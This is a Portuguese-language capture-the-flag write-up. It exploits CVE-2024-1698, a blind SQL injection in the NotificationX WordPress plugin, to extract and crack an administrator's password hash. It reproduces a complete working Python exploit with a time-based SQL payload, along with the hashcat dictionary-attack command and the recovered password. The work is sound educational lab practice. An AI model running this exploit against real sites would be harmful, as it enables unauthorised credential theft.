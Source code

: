 # CTF - Semana 8

**Objetivo**  
Explorar uma vulnerabilidade de SQL Injection e obter a palavra-passe de administrador.

**Enunciado**  
O desafio CTF desta semana consiste em, novamente, atacar um site Wordpress. Em particular, descobrir endpoints na API do site que façam queries à base de dados e sejam dinamicamente geradas a partir de input do utilizador e abusar dos mesmos para executar o ataque.

Tarefas:  
- Deves começar por recolher toda a informação que conseguires do site. Em particular, e tal como num desafio anterior sobre Wordpress, descobrir versões de software instalado.

- Já sabes que queremos explorar uma vulnerabilidade de SQL injection. Será que existem vulnerabilidades reportadas em bases de dados públicas e/ou ferramentas que permitem automatizar a descoberta e abuso de vulnerabilidades de SQL injection?

- Qual o endpoint do site vulnerável, e de que forma se pode realizar um ataque? Como pode ser catalogada a vulnerabilidade?

- O ataque permitir-te-á extrair informação da base de dados do servidor. Em particular, queres descobrir a palavra-passe do administrador, mas como ditam as boas normas de segurança esta não é armazenada em limpo na base de dados, sendo armazenada apenas uma hash da palavra-passe original. Para este servidor, e em mais detalhe, qual a política de armazenamento de palavras-passe?

- Será que armazenar uma hash da palavra-passe é seguro, no sentido em que torna impossível a recuperação da palavra-passe original? Esta problemática é muito comum não só aquando de vulnerabilidades, mas também no caso de data leaks. Há várias formas de tentar reverter funções de hash para palavras-passe e ferramentas para automatizar o processo.

## 1. Reconhecimento
O primeiro passo é, tal como o enunciado diz, descobrir qual o software instalado, incluindo a versão do Wordpress e possíveis plugins.
A versão do Wordpress é a 6.7.1, tal como mostra a imagem seguinte, resultado de uma pesquisa no código-fonte:

![alt text](../img/ctf8-img1.png)  
*Figura 1 - versão do Wordpress*  

No entanto, esta versão não tem vulnerabilidades graves nem relacionadas com SQL Injection.

**Plugins**  
Quando entrámos no site, um dos aspetos que nos chamou mais a atenção foi a exibição de uma notificação para um post de um utilizador. A notificação está mostrada abaixo:

![alt text](../img/ctf8-img2.png)  
*Figura 2 - notificação do site*  

Trata-se de uma notificação gerada pelo **NotificationX**, um plugin para Wordpress desenhado para marketing, nomeadamente sites de vendas, mostrando notificações e alertas chamativos ao utilizador.

A partir do código-fonte, descobrimos que a versão instalada desse plugin é a versão 2.8.1.

![alt text](../img/ctf8-img3.png)  
*Figura 3 - versão do plugin NotificationX*  

## 2. Pesquisa e Exploração de Vulnerabilidades
Após uma pesquisa de vulnerabilidades para esta versão do NotificationX, descrobrimos uma vulnerabilidade de SQL Injection (**CVE-2024-1698**). Abaixo encontra-se a descrição da vulnerabilidade obtida do site [nvd.nist.gov](https://nvd.nist.gov/vuln/detail/cve-2024-1698).

![alt text](../img/ctf8-img4.png)  
*Figura 4 - descrição da vulnerabilidade*  

### Exploit
Encontrámos um script [neste site](https://www.vicarius.io/vsociety/posts/exploiting-the-unexploited-unauthenticated-blind-sqli-in-notificationx-wordpress-plugin-cve-2024-1698-a-novel-exploit-for-novel-folks) que explora esta vulnerabilidade:

``` py
import argparse
import requests
import string
import urllib3
from packaging import version


# Disable SSL verification warning for simplicity
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


def validate_url(url):
    if not url.startswith("http://") and not url.startswith("https://"):
        raise ValueError("Invalid URL schema. Use 'http://' or 'https://'.")


def retrieve_admin_password_hash(url, delay, debug):
    admin_password_hash = ""
    session = requests.Session()

    for idx in range(1, 41):
        # Iterate over all the printable characters + NULL byte
        for ascii_val in (b"\x00"+string.printable.encode()):
            resp = session.post(url, data = {
                "nx_id": 1337,
                "type": f"clicks`=IF(ASCII(SUBSTRING((select user_pass from wp_users where id=1),{idx},1))={ascii_val},SLEEP({delay}),null)-- -"
                }
            )

            # Elapsed time > delay if delay happened due to SQLi
            if resp.elapsed.total_seconds() > delay:
                if debug and admin_password_hash:
                    print("[DEBUG]", admin_password_hash)

                # Reached NULL!
                if ascii_val == 0:
                    return admin_password_hash

                admin_password_hash += chr(ascii_val)
                break

    """
    if debug:
        print("[DEBUG] Admin password hash:", admin_password_hash)
    """

    return admin_password_hash


def exploit(url, delay, debug):
    try:
        response = requests.get(url + "/wp-content/plugins/notificationx/README.txt", verify = False)

        if response.status_code == 200:
            curr_ver = response.text.split("Stable tag:")[1].split("\n")[0].strip()
            if version.parse(curr_ver) < version.parse("2.8.3"):
                print("[+] The WordPress instance seems to be vulnerable to CVE-2024-1698.")
                admin_password_hash = retrieve_admin_password_hash(url + "/wp-json/notificationx/v1/analytics", delay, debug)
                print("[*] WordPress admin password hash:", admin_password_hash)
                return

        print("[-] The WordPress instance seems NOT to be vulnerable to CVE-2024-1698.")

    except requests.exceptions.RequestException as e:
        print(f"[-] LOG: An error occurred during the exploitation: {e}")


def main():
    parser = argparse.ArgumentParser(description="Exploit script for CVE-2024-1698.")
    parser.add_argument("--url", required=True, help="URL to send requests to.")
    parser.add_argument("--sleep-time", required=False, default=0.5, type=float, help="Sleep time for SQL payloads.")
    parser.add_argument("--debug", required=False, action="store_true", help="Debug mode enabled.")
    args = parser.parse_args()

    url = args.url.rstrip('/')
    validate_url(args.url)

    exploit(url, args.sleep_time, args.debug)


if __name__ == "__main__":
    main()
```

Ao correr o script, tivemos de esperar alguns minutos para que a execução terminasse. Obtivemos o seguinte output:

![alt text](../img/ctf8-img5.png)  
*Figura 5 - execução do exploit* 

### Hash
Tal como a imagem anterior mostra, a hash encontrada para a password de administrador é ```$P$BuRuB0Mi3926H8h.hcA3pSrUPyq0o10```. Esta hash é do tipo phpass (Portable PHP Password), usado pelo Wordpress (e neste servidor em específico) para cifrar e armazenar passwords.

**Será que armazenar uma hash da palavra-passe é seguro, no sentido em que torna impossível a recuperação da palavra-passe original?**  
O enunciado refere este ponto e, de facto, guardar uma hash da password não garante total segurança da mesma. Se a password for fraca, um atacante pode facilmente decifrar a hash e descobrir a password com um ataque de dicionário.

Este último passo foi exatamente o que fizemos. Utilizámos a ferramenta **Hashcat** para fazer brute-force à hash utilizando um dicionário de passwords comuns muito conhecido - rockyou.txt. Guardamos a hash num ficheiro hash.txt.

Comando utilizado: ```hashcat -m 400 -a 0 hash.txt rockyou.txt```

Abaixo encontra-se o resultado:

![alt text](../img/ctf8-img6.png)  
*Figura 6 - hash decifrada com o Hashcat* 

Podemos verificar que o Hashcat encontrou uma correspondência para a password: **heartbroken**. A título de curiosidade, como a imagem mostra, bastaram 2 segundos para a ferramenta encontrar a password, o que chama a atenção para a necessidade de utilizar passwords fortes.

O site dos CTFs aceitou a flag com a password encontrada.

**Flag**  
flag{heartbroken}
